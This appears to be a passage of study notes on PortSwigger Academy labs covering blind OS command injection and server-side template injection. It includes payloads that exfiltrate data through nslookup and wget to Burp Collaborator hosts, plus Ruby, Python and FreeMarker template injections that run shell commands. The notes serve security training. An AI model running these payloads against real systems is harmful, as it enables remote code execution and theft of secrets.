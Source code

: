 ### 3. Blind OS command injection with out-of-band interaction
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

### 4. Blind OS command injection with out-of-band data exfiltration
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

### 5. Admin Panel ImgSize command injection
```
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
Or  
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```


# Server-side template injection
## Approach  
One of my favorites. SSTI is a direct road to RCE. Complexity can only arise when searching for the language in which the code was written, for this I used a small tip to narrow the range of technologies: at the exploration stage, we iterate over template expressions ```({{7*7}}, ${7*7},<% = 7*7 %>, ${{7*7}}, #{7*7}, *{7*7})``` and if, for example, we got the expression ```<%= 7*7 %>``` go to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and look for all technologies that use this expression. The method, of course, has a big crack in the form of the most common expression ```{{7*7}}```, here only God can tell you what kind of technology it is. Again, do not hesitate to scan with Burp, maybe it can tell you what technology is used.  

Arises at View Details with reflected phrase **Unfortunately this product is out of stock**  
![aa](https://user-images.githubusercontent.com/58632878/224709631-b1b0555f-5ee6-44a9-a98a-0244ebead621.png)  

## Labs
### 1. Basic server-side template injection
>Ruby 
```
<%= system("rm+morale.txt") %>
```

### 2. Basic server-side template injection (code context)
```
blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
```

### 3. Server-side template injection using documentation
>Java Freemaker
```
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
```
